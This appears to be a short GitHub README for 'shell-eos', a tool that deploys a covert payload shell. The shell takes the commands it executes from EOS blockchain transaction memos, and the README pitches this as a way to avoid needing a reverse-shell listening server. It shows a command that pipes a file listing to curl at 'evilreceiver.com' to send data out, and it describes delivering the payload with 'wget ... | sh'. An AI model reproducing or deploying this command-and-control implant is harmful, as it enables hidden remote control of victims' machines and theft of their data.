 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemon listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master is who the bot obey

Send to a EOS address command line to execute orders

## Execute commands in each listening shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa | xargs ... | curl https://evilreceiver.com" .... -d {1}

## Publish datasets in a address as a recipient

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

## Using as a payload

- Compile

- Upload to your prefered file server

`wget https://yourpreferedserver.com/path | sh`




